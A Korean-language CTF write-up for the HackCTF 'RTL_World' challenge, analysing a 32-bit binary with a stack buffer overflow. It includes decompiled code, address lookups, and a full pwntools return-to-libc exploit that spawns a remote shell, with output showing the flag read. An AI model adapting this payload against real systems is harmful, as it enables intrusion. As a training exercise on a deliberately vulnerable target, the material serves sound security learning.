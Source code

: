 # RTL_World

```c
kimdong@ubuntu  ~/Wargame/200~250  file rtl_world
rtl_world: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=8c8517ab9344393e62869f9fa9aad2de42e5a6b1, not stripped

kimdong@ubuntu  ~/Wargame/200~250  checksec rtl_world
[*] '/home/kimdong/Wargame/200~250/rtl_world'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
```
이번 바이너리 파일은 32bit에 NX BIT외에는 다른 mitigation은 걸려있지 않다.<br>

```c
kimdong@ubuntu  ~/Wargame/200~250  ./rtl_world
[1]    2285 segmentation fault (core dumped)  ./rtl_world

✘ kimdong@ubuntu  ~/Wargame/200~250  nc ctf.j0n9hyun.xyz 3010

NPC [Village Presient] :
Binary Boss made our village fall into disuse...
If you Have System Armor && Shell Sword.
You can kill the Binary Boss...
Help me Pwnable Hero... :(

Your Gold : 1000
======= Welcome to RTL World =======
1) Information the Binary Boss!
2) Make Money
3) Get the System Armor
4) Get the Shell Sword
5) Kill the Binary Boss!!!
6) Exit
====================================
>>>

```
Local에서 실행시키면  core dumped가 뜨고, nc로 연결하면 아래와 같은 문자열이 출력된다.<br>
```c
[Binary Boss]

Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
ASLR:  Enable
Binary Boss live in 0xf7fb8468
Binart Boss HP is 140 + Armor + 4
```
1)번을 선택하면 다음과 같이 바이너리에 대한 정보가 나온다.<br>
`Binary Boss`의 주소와 HP(?)를 알려준다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // [esp+0h] [ebp-A0h]
  int v5; // [esp+10h] [ebp-90h]
  char buf; // [esp+14h] [ebp-8Ch]
  void *v7; // [esp+94h] [ebp-Ch]
  void *handle; // [esp+98h] [ebp-8h]
  void *s1; // [esp+9Ch] [ebp-4h]

  setvbuf(stdout, 0, 2, 0);
  handle = dlopen("/lib/i386-linux-gnu/libc.so.6", 1);
  v7 = dlsym(handle, "system");
  dlclose(handle);
  for ( s1 = v7; memcmp(s1, "/bin/sh", 8u); s1 = (char *)s1 + 1 )
    ;
  puts("\n\nNPC [Village Presient] : ");
  puts("Binary Boss made our village fall into disuse...");
  puts("If you Have System Armor && Shell Sword.");
  puts("You can kill the Binary Boss...");
  puts("Help me Pwnable Hero... :(\n");
  printf("Your Gold : %d\n", gold);
  while ( 1 )
  {
    Menu(v4);
    printf(">>> ");
    __isoc99_scanf("%d", &v5);
    switch ( v5 )
    {
      case 0:
        continue;
      case 1:
        system("clear");
        puts("[Binary Boss]\n");
        puts("Arch:     i386-32-little");
        puts("RELRO:    Partial RELRO");
        puts("Stack:    No canary found");
        puts("NX:       NX enabled");
        puts("PIE:      No PIE (0x8048000)");
        puts("ASLR:  Enable");
        printf("Binary Boss live in %p\n", handle);
        puts("Binart Boss HP is 140 + Armor + 4\n");
        break;
      case 2:
        v4 = gold;
        Get_Money();
        break;
      case 3:
        if ( gold <= 1999 )
        {
          puts("You don't have gold... :(");
        }
        else
        {
          gold -= 1999;
          printf("System Armor : %p\n", v7);
        }
        break;
      case 4:
        if ( gold <= 2999 )
        {
          puts("You don't have gold... :(");
        }
        else
        {
          gold -= 2999;
          printf("Shell Sword : %p\n", s1);
        }
        break;
      case 5:
        printf("[Attack] > ");
        read(0, &buf, 0x400u);
        return 0;
      case 6:
        puts("Your Not Hero... Bye...");
        exit(0);
        return result;
    }
  }
}
```  
`case 5`에서 보면 사용자의 입력값을 받는데, buf의 크기는 140인데, 1024byte를 받는 것을 확인할 수 있다.<br>
`BOF`취약점을 이용할건데, NX-bit가 enable 되어있으므로, system함수 주소에서 /bin/sh를 실행시키는 방법으로 가야 할것같다.<br>


```c
gef➤  disas system
Dump of assembler code for function system@plt:
   0x080485b0 <+0>:	jmp    DWORD PTR ds:0x804b020
   0x080485b6 <+6>:	push   0x28
   0x080485bb <+11>:	jmp    0x8048550
End of assembler dump.

```
`system`함수의 주소는 `0x080485b0`이다.

```c
.rodata:08048EB1 aBinSh          db '/bin/sh',0          ; DATA XREF: main+84↑o
```
ida를 통해 `/bin/sh`의 주소를 구했는데, `0x08048EB1`이다.<br>

Exploit Code는 다음과 같다.<br>

5번분기를 호출한뒤에, Buf + SFP + system + dummy(exit) + /bin/sh의 payload를 전송해주면 될것같다.<br>

system함수뒤에 4바이트 더미와 /bin/sh를 넣어주는 이유<br>
- system, execl함수는 ebp+8을 인자로 인식한다. 때문에 exit함수나 4바이트의 dummy값을 넣어준다.<br>

---

## Exploit Code

```c
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3010)
context.log_level = 'debug'

system_addr=0x080485b0
bin_sh_addr=0x08048eb1

p.recvuntil(">>> ")
p.sendline("5")
p.recvuntil("[Attack] > ")
payload = "A"*144
payload += p32(system_addr)
payload += "A"*4
payload += p32(bin_sh_addr)
p.sendline(payload)
p.interactive()
```

```c
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0xa bytes:
    'flag\n'
    'main\n'
flag
main
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x22 bytes:
    'HackCTF{}\n'
HackCTF{}
```

## END !
